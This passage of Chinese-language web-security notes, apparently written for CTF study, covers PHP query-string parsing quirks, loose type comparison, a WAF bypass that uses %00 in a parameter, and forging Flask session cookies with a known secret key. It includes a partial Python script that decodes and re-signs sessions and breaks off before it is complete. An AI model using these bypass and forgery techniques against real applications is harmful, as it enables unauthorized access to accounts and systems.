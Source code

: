 1. 删除前后的空白符（空格符，制表符，换行符等统称为空白符）
2. 将某些字符转换为下划线（包括空格）

例如 /?%20news[id%00=42 会转换为Array([news_id] => 42)



## 类型比较

PHP 类型比较包含：松散、严格

- 松散：==，值比较，不比较类型
- 严格：===，值和类型都比较

数值类型：

- 当整数和字符串类型相比较时，会截取字符串的前几位数字化为整数然后再进行比较



## WAF 绕过

### 1、字符串解析

当 waf 限制传参只为数值时，可以利用字符串解析的特性，例如给传参加入 %00。这样 waf 就无法识别到，但是 php 又会对其解析删除空格，代码依旧可以运行



# Python

## Flask

### Session 伪造

由于 flask 仅对 session 进行签名无加密，因此可以获取到 session 的内容，但是由于添加了 key，因此需要获取到 key 才可以进行伪造



**session 加/解密脚本**：

~~~python
from flask.sessions import _lazy_sha1, session_json_serializer
from itsdangerous import URLSafeTimedSerializer


def getURLSafeTimedSerializer(secret_key="ckj123", salt="cookie-session", key_derivation="hmac"):
    digest_method = staticmethod(_lazy_sha1)
    serializer = session_json_serializer
    signer_kwargs = dict(key_derivation=key_derivation, digest_method=digest_method)
    return URLSafeTimedSerializer(
        secret_key,
        salt=salt,
        serializer=serializer,
        signer_kwargs=signer_kwargs,
    )


def replacePayload(payload, newDict):
    usts = getURLSafeTimedSerializer()
    payload = decryption(payload, usts)
    payload.update(newDict)
    return cryption(payload, usts)


def decryption(payload, usts):
    return usts.loads(payload)


~~~